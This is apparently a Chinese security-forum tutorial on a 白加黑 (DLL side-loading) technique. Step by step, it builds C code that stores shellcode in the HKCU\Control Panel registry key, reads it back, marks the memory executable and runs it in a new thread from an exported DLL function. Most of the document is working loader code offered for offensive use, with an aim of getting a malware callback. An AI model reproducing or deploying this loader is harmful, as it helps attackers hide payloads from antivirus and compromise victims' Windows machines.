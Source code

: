 

# 白加黑写入Shellcode到注册表上线 - 先知社区

白加黑写入Shellcode到注册表上线

- - -

其实本质就是将shellcode写入到注册表中，然后读取注册表中的shellcode，然后创建线程去执行shellcode。

如下图:

[![](assets/1704762277-823e7311f2ddbcc1c646236ff0f92048.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121810-c45f6a16-ad13-1.png)

## 写入注册表shellcode

这里将shellcode写入到注册表中，在我们需要的时候再去读取然后执行。

这里用到如下两个Windows API函数。

```plain
RegOpenKeyExA
RegSetValueExA
```

## RegOpenKeyExA

```plain
LSTATUS RegOpenKeyExA(
  [in]           HKEY   hKey,
  [in, optional] LPCSTR lpSubKey,
  [in]           DWORD  ulOptions,
  [in]           REGSAM samDesired,
  [out]          PHKEY  phkResult
);
```

第一个参数需要的是打开注册表的句柄。

第二个参数表示要打开注册表子项的句柄。

第三个参数表示指定要在打开密钥时应用的选项。

最重要是的是第四个参数是对注册表的访问权限，因为我们要在注册表下创建一个String Value，所以这里的权限我们设置为KEY\_SET\_VALUE即可。

如下代码:

```plain
RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0,KEY_SET_VALUE,&keys);
```

接下来就是设置注册表的值了。

这里使用的是RegSetValueExA函数 如下:

```plain
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

第一个参数就是注册表的句柄，而且它的权限必须是KEY\_SET\_VALUE，也就是我们上面设置的。

第二个参数是我们要设置值的名称，就是注册表里面值得名称，第三个参数是保留参数必须为0，第四个参数是注册表里面值得类型，这里指定为REG\_BINARY，表示任意的二进制数据，这里可以参考微软官网: [Registry value types - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/sysinfo/registry-value-types)

第五个参数表示你要存储的数据，也就是你的shellcode，最后一个参数是你shellcode的大小。

如下代码实现:

```plain
#define REGISTRY "Control Panel" //这里是写入注册表的目录 也就是 计算机\HKEY_CURRENT_USER\Control Panel
#define REGSTRING "relaysec" //定义你注册表写入值得名字
BOOL WirteShellcodeRegister(PBYTE shellcode,DWORD shellcodeSize) {
     BOOL        bs = TRUE;
     LSTATUS     sts = NULL;
     HKEY        keys = NULL;
     sts = RegOpenKeyExA(HKEY_CURRENT_USER,REGISTRY,0, KEY_SET_VALUE, &keys);
     if(sts == NULL){
         bs = FALSE;
     }
     sts = RegSetValueExA(keys, REGSTRING, 0, REG_BINARY, shellcode, shellcodeSize);
     if(sts == NULL){
         bs = FALSE;
     }
_EndOfFunction:
    if (keys)
        RegCloseKey(keys);
    return bs;
}
```

成功写入:

[![](assets/1704762277-dba82b87dbe50f8a23afcb44fa9e85fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121839-d5a1d926-ad13-1.png)  
写入之后我们接下来要进行读取注册表中的shellcode。

## 读取注册表shellcode

这里需要用到如下的Windows API函数:

```plain
RegGetValueA
HeapAlloc
```

## RegGetValueA

```plain
LSTATUS RegGetValueA(
  [in]                HKEY    hkey,
  [in, optional]      LPCSTR  lpSubKey,
  [in, optional]      LPCSTR  lpValue,
  [in, optional]      DWORD   dwFlags,
  [out, optional]     LPDWORD pdwType,
  [out, optional]     PVOID   pvData,
  [in, out, optional] LPDWORD pcbData
);
```

第一个参数依旧是注册表项的句柄，而且必须是KEY\_QUERY\_VALUE权限的。

第二个参数填写注册表的路径，它将从子项中检索注册表的值。

第三个参数表示注册表的名称。

第四个参数用于限制数据类型，如果值的数据类型不符合此条件，则函数将失败，这里我们设置RRF\_RT\_ANY即可，没有类型限制。

第五个参数是存储在指定值中的数据类型的代码，一般设置为NULL。

第六个参数表示接收存储在指定值的指针，如果不需要值得话也可以设置为NULL。

最后一个参数接收值数据的缓冲区的指针，这里我们设置接收一下即可。

如下完整代码：

```plain
BOOL ReadShellcodeRegister(PBYTE* shellcode, SIZE_T* shellcodeSize) {
    LSTATUS    sts = NULL;
    DWORD       dread = NULL;
    PVOID       ps = NULL;
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, NULL, &dread);
    if (sts !=0L) {
        return FALSE;
    }
    ps = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dread);
    if (ps == NULL) {
        return FALSE;
    }
    sts = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, ps, &dread);
    if (sts != 0L) {
        return FALSE;
    }
    *shellcode = (PBYTE)ps;
    *shellcodeSize = dread;
    return TRUE;
}
```

这里为什么要读取两次，因为第一次读取的是注册表项，第二次才是值。

[![](assets/1704762277-2b0cc0f76f4928db1de0d9d726b8b525.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121906-e5cb2712-ad13-1.png)  
读取到值之后然后赋值给shellcode。

读取完成之后就是执行了，这里我们使用创建线程的方式去执行。

首先申请一块内存:

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
}
```

[![](assets/1704762277-f13fb33448ce4e44486e2ab6cd74ba14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121913-e9cb5f4e-ad13-1.png)  
申请内存之后将shellcode复制进去。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dwOldProtection = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
}
```

[![](assets/1704762277-ec032d662a0de7f8a951309e8a1d5e2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121920-edc47054-ad13-1.png)  
copy进去之后将权限更改为PAGE\_EXECUTE\_READWRITE，然后创建线程执行。

```plain
BOOL executeShellcode(PVOID shellcode, SIZE_T shellcodeSize){
     DWORD dpOld = NULL;
     PVOID shellcodeAddress = shellcodeAddress = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE,      PAGE_READWRITE);
     if (shellcodeAddress == NULL) {
            return FALSE;
    }
     memcpy(shellcodeAddress, shellcode, shellcodeSize);
     memset(shellcode, '\0', shellcodeSize);
      if (!VirtualProtect(shellcodeAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &dpOld)) {
            return FALSE;
     }
     getchar();

    if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcodeAddress, NULL, NULL, NULL) == NULL) {
        return FALSE;
    }

    return TRUE;
}
```

[![](assets/1704762277-054288d857eee6f471f8d1d26f5e0302.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121925-f10ee348-ad13-1.png)

## 集成到白加黑中

我们直接将前面所写的写入，读取，执行这三部的代码copy到dll中，然后放到导出函数去执行即可。

[![](assets/1704762277-84472f7f12579ed9b1fde9d9c2d85db8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121930-f43c4650-ad13-1.png)

[![](assets/1704762277-b939acb301a01134405aabe5b0cabc46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240107121937-f8647ad6-ad13-1.png)
